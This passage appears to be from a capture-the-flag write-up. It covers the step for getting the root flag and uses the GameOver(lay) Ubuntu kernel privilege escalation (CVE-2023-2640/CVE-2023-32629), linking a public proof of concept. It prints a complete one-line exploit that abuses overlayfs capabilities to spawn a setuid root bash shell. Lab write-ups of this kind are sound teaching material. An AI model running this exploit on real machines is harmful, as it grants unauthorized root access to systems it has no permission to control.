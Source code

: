 ### 4.1 - Submit the flag located in the root user's home directory.

As explained into github below, we can do GameOver(lay) Ubuntu Privilege Escalation

{% embed url="https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----fd256a170fae--------------------------------" %}

Then, executing bash script, we have become root and can now access the root flag.

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

<figure><img src="../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>

<details><summary>🚩 Flag 2 (root.txt)</summary></details>

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
